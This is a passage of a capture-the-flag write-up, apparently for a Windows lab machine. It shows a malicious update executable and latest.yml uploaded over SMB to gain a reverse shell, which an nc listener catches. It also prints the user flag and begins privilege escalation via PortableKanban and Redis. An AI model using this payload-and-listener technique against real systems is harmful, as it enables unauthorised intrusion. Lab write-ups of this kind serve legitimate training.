 ```
putting file up'date.exe as \client1\up'date.exe (8.5 kb/s) (average 8.5 kb/s)
smb: \client1\> put latest.yml
putting file latest.yml as \client1\latest.yml (0.2 kb/s) (average 4.6 kb/s)
smb: \client1\>
```

Upon upload we’d get a reverse connection on our machine.

\## Reverse Connection

```
⛩\> nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.42] from (UNKNOWN) [10.129.99.96] 51066
Microsoft Windows [Version 10.0.19042.906]
(c) Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
whoami
atom\jason

C:\WINDOWS\system32>
```

\## User Flag

```
PS C:\> cd users/jason/desktop
cd users/jason/desktop
PS C:\users\jason\desktop> get-childitem
get-childitem


    Directory: C:\users\jason\desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         3/31/2021   2:09 AM           2353 heedv1.lnk
-a----         3/31/2021   2:09 AM           2353 heedv2.lnk
-a----         3/31/2021   2:09 AM           2353 heedv3.lnk
-ar---         4/19/2021  11:36 PM             34 user.txt


PS C:\users\jason\desktop> Get-Content user.txt
Get-Content user.txt
de1bb61685d6f6061132bfcd2509ffc6
PS C:\users\jason\desktop>
```

# Privilege Escalation

In the current user directory, we can find portable kanban application. It is a physical board to manage your daily tasks. It is possible to create a common board and share information with colleagues, but for that they should have Redis server. As we already know from our initial enumeration that Redis is already present on target. Let’s see the configuration file of kanban.
